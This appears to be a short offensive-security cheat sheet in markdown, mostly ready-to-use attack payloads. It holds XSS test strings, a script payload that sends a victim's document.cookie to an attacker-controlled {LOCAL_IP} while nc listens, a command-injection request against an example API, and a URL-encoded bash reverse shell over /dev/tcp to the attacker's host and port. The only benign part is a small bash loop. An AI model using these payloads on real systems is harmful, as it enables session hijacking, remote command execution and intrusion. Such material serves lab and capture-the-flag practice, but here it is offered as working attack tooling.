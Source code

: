 <a name="DirectoryFilesIteration"></a>
# Script - Directory Files Iteration

```
#!/bin/bash

for file in ./extract_txt/*.txt ; do
	echo ${file}
done
```

<a name="XSS"></a>
# XSS

<a name="Validation"></a>
### Validation

```
<script>alert('XSS Works')</script>
</p><script>console.log("XSS Works")</script><p>
```

<a name="AcquiringCookies"></a>
### Acquiring Cookies

```
nc -lvnp 80
</p><script>window.location = 'http://{LOCAL_IP}/page?param=' + document.cookie </script><p>
```

<a name="HTTP"></a>
# HTTP

<a name="URLScapping"></a>
### URL Scapping

```
# %20 = Space
# %2f = /
curl http://example.com/api/cmd/ls%20%2fhome
```

<a name="URLReverseShellExample"></a>
### Reverse Shell Example

```
# Listen
nc -lvnp {LOCAL_PORT}

# Request with: bash -i >& /dev/tcp/{LOCAL_IP}/{LOCAL_PORT} 0>&1
http://example.com/api/cmd/bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{LOCAL_IP}%2F{LOCAL_PORT}%200%3E%261
```
